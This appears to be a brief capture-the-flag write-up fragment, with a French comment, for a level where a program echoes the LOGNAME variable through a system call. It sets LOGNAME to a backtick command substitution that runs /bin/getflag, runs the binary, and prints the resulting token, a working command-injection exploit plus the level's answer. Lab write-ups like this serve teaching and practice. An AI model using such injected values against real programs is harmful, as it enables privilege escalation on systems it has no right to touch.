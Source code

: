 il get le logname et le echo avec une commande system

export LOGNAME="\`/bin/getflag\`"
./level07 > /tmp/lol
cat /tmp/lol
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
